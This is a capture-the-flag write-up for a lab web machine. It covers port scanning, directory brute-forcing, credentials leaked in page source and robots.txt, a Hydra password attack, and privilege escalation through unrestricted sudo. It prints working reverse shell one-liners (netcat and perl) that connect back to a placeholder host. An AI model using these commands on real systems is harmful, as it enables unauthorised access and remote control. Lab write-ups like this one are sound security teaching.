



In this CTF, we are given a machine and have to attempt to find three ingredients.

Firstly, let's do some recon:

## >Recon

### Nmap scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:8c:c4:2a:d5:e7:f9:c4:e9:14:49:58:ea:16:c9:09 (RSA)
|   256 6f:3e:ce:5c:92:ca:3e:4b:dd:dd:47:ef:41:19:2a:c7 (ECDSA)
|_  256 e8:8a:7e:fa:59:85:4a:06:a7:7d:47:c1:95:b0:80:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Seems like two ports are open; a webserver running on port 80 and SSH on port 22.
Let's take a look at the webpage.



Looking at the source of the main webpage, we find:

```js
Note to self, remember username!

Username: R1ckRul3s
```

### GoBuster:

Let's look for hidden directories on the website.

A search without extensions will yield:
```shell
/assets (Status: 301)
/server-status (Status: 403)
```
However, using the extensions .html, .php and .txt yields:
```shell
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

login.php -->


Using BurpSuite, we get three good pieces of information from the login form:
1. The form is sent as a POST.
2. We can see the way the user and password are sent.
3. We can see an error message.

```shell
1. POST /login.php HTTP/1.1
2. username=TEST_USER&password=TEST_PASSWORD&sub=Login
3. Invalid username or password. 
```

Now we have a username and a login form. Let's hail Hydra.

## >Dictionary Attack

Using the information gathered before, let's try to recover Rick's password using Hydra:

```shell
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.137.78 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```

Without much success, I started to look for other resources and found that robots.txt contained the following:
```js
Wubbalubbadubdub
```
A password perhaps...?

And... we're in.

## >Reverse Shell



We are greeted with a Commands Panel where we can execute Linux commands so let's get a reverse shell first.

The command
```shell
nc -e /bin/sh <IP> 5555
```
fails, so netcat is most likely banned.

*BUT* perl is allowed:
```shell
perl -e 'use Socket;$i="<IP>";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Just in the directory we land, we find the first ingredient and a clue:
```
clue.txt:
Look around the file system for the other ingredient.
```
Let's see if we're lucky with the find command and any file that has "ngred" in its name exists:
```shell
$ find / -name "*ngred*" 2>>/dev/null
/var/www/html/Sup3rS3cretPickl3Ingred.txt
/home/rick/second ingredients
```

And we got it.

Having no clue where to find the last ingredient, I thought of privilege escalation and tested what I could do as the user I was given --> www-data:

```shell
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-137-78.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-137-78.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We hit the lottery. We can run any command with sudo.
```shell
$ sudo su
whoami
root
```
We can find the last flag in the /root directory. 

## Another day, another root!